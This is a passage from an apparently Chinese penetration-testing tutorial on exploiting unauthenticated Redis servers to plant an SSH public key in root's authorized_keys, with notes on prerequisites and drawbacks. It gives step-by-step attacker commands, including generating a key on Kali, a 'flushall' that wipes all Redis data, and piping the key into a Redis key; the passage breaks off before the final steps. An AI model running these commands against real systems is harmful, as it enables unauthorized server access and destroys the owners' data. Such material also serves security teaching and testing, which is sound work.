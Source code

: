 > 注：
当然当然，写入的目录不限于`/root/.ssh`下的`authorized_keys`，也可以写入用户目录，不过 Redis 很多以 root 权限运行，所以写入 root 目录下，可以跳过猜用户的步骤。
本文中仅仅以 Root 用户为例。

所以在实际渗透过程中，该服务器「端口扫描」结果至少要满足：

- Redis 服务 open（默认 6379 端口）
- ssh 服务 open（默认 22 端口）[没开 ssh 都是扯淡]
 

**利用现状：**

首先此方式肯定是无法适用于 Windows 主机的。（判断是 Windows 机器还是 Linux 机器可以通过下图所示的命令根据路径判断）

![title](https://leanote.com/api/file/getImage?fileId=5dd12561ab6441492c000823)

另外随着运维人员对此漏洞认识的深入，现在越来越少运维会直接以 root 起 Redis 的。这样就无法直接往 `/root/.ssh` 目录下写公钥。

当然写入的目录不限于`/root/.ssh`下的`authorized_keys`，也可以写入用户目录。那么要多一个猜用户的步骤。


相较之下、直接写 webshell 和写计划任务这两种方式用的更多。

【**缺点**】

- 此方法需要 flushall，会破坏数据。慎用。
- 不适合于 Windows OS 服务器。


**具体步骤：**

![title](https://leanote.com/api/file/getImage?fileId=5dd11445ab6441492c000791)


1、在 Kali 上生成一个 ssh key：
``` shell
# ssh-keygen -t rsa -C "redis-crackit@unixhot.com"
```

2、给公钥加点换行：
``` shell
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > zhimakaimen.txt
```
注：最好在公钥内容的前面和后面都加上一点空格和回车，不然貌似数据库的其它内容会造成影响。


3、清空数据，必备操作。注意：不要轻易操作，会清空 redis 所有数据。

``` shell
[root@test-node1 ~]# redis-cli -h [服务器IP] flushall
```

4、把公钥写入到一个 key 里面，这个例子中是写入了 `zhimakaimen` 这个 key。
``` shell
[root@test-node1 ~]# cat zhimakaimen.txt | redis-cli -h [服务器IP] -x set zhimakaimen
```

> 注：
`-x` 代表从标准输入读取数据作为该命令的最后一个参数。
$echo "world" |redis-cli -x set hello
Ok
—— [redis cli命令详解](https://blog.csdn.net/whatday/article/details/102924661)
